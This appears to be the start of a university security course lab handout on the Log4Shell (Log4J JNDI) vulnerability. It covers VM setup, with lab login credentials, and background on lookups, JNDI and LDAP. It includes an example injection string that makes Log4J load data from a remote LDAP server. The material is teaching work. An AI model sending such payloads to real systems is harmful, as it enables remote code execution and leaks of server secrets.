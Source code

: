 <span style="color: #003057; font-size:24px; font-weight: bold;">Submission:    
    <span style="color: black; font-size:18px; font-weight: bold;">Gradescope (autograded) - see <a href="#submission">Submission Details</a>

<span style="color: #003057; font-size:24px; font-weight: bold;">Virtual Machine:
<ul>(Note: downloads can be very slow when project first releases due to very high traffic in first few hours/day) </ul>

* Apple M1 based systems
  * You cannot complete this project on an M1 based system.

* Intel/AMD x64 version
    * [Windows Virtualbox 6.1.16 Download](https://download.virtualbox.org/virtualbox/6.1.16/VirtualBox-6.1.16-140961-Win.exe)
    * [Mac VirtualBox 6.1.16 Download (for Intel Macs only)](https://download.virtualbox.org/virtualbox/6.1.16/VirtualBox-6.1.16-140961-OSX.dmg)
    * Same as Project Capture the flag or [VM Download](https://cs6035.s3.amazonaws.com/CS6035-Student-Spring-2023-v7.ova)
    * Username: log4j, Password: konami-code. You will need to log out of the user for the previous CTF project and log in to the log4j user.

---
  
  
<div style="text-align:center">
  <span style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">BACKGROUND</span>
</div>

Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) which allow for [string substitution](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html) of certain strings. These are in the form of <span style="font-weight: bold">${prefix:name}</span> i.e. a common one would be <span style="font-weight: bold">${java:runtime}</span> and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <span style="font-weight: bold">${jndi:\<lookup\>}</span> is a valid lookup expression recognized by the lookup by Log4J. 

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <span style="font-weight: bold">${jndi:ldap://cs6035.com/exploitfile}</span> which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.
